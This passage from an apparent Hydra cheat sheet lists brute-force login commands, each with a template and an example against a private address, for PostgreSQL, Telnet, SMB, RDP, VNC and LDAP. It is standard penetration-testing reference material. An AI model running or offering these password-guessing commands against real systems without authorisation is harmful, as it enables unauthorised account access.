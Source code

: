 5. **PostgreSQL**
   - **Command:**
     ```bash
     hydra -l <username> -P <password list> postgres://<target>
     ```
   - **Example:**
     ```bash
     hydra -l postgres -P passwords.txt postgres://192.168.1.10
     ```

6. **Telnet**
   - **Command:**
     ```bash
     hydra -l <username> -P <password list> telnet://<target>
     ```
   - **Example:**
     ```bash
     hydra -l admin -P passwords.txt telnet://192.168.1.10
     ```

7. **SMB (Server Message Block)**
   - **Command:**
     ```bash
     hydra -l <username> -P <password list> smb://<target>
     ```
   - **Example:**
     ```bash
     hydra -l admin -P passwords.txt smb://192.168.1.10
     ```

8. **RDP (Remote Desktop Protocol)**
   - **Command:**
     ```bash
     hydra -l <username> -P <password list> rdp://<target>
     ```
   - **Example:**
     ```bash
     hydra -l admin -P passwords.txt rdp://192.168.1.10
     ```

9. **VNC (Virtual Network Computing)**
   - **Command:**
     ```bash
     hydra -l <username> -P <password list> vnc://<target>
     ```
   - **Example:**
     ```bash
     hydra -l admin -P passwords.txt vnc://192.168.1.10
     ```

10. **LDAP (Lightweight Directory Access Protocol)**
    - **Command:**
      ```bash
      hydra -l <username> -P <password list> ldap://<target>
      ```
    - **Example:**
      ```bash
      hydra -l admin -P passwords.txt ldap://192.168.1.10
      ```
